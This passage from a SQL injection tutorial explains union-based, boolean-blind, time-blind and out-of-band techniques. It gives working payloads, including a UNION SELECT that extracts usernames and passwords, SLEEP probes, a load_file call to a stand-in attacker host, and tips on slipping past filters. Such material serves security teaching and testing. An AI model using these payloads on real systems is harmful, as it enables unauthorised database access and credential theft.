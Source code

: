 **Steps to Exploit**:
1. **Find the Number of Columns**:
   ```sql
   ' ORDER BY 1 -- 
   ' ORDER BY 2 -- 
   ' ORDER BY n -- 
   ```
2. **Union Injection to Extract Data**:
   ```sql
   ' UNION SELECT null, username, password FROM users; --
   ```
   
3. **Avoiding Detection**: Use comment markers like `/*`, `#`, or `--` to bypass filters and prevent query errors from revealing malicious intentions.

### 2. **Blind SQL Injection**

Blind SQL Injection is used when an application is vulnerable to SQL Injection but does not return database error messages. Attackers rely on observing changes in the application's behavior or response times to infer the results of their queries.

#### a. **Boolean-Based Blind SQL Injection**

This technique relies on crafting SQL queries that result in `TRUE` or `FALSE` responses. The application’s behavior changes based on whether the query returns true or false.

**Examples**:
```sql
' AND 1=1; --   /* The page loads normally */
' AND 1=2; --   /* The page behaves differently */
```

To determine the length of a table name:
```sql
' AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1))=5; --
```

#### b. **Time-Based Blind SQL Injection**

Time-Based Blind SQL Injection relies on making the database server pause execution using functions like `SLEEP()`, `WAITFOR DELAY`, etc. This allows attackers to infer the result of a query based on how long it takes for the server to respond.

**Examples**:
```sql
' OR IF(1=1, SLEEP(5), 0); --
' OR IF((SELECT COUNT(*) FROM users) > 1, SLEEP(5), 0); --
```

### 3. **Out-of-Band SQL Injection**

Out-of-Band SQL Injection is less common and occurs when an attacker cannot use the same channel for injecting and retrieving data. It relies on the database's ability to make external HTTP or DNS requests.

**Example**:
```sql
' UNION SELECT load_file('\\\\attacker.com\\file'); --
```
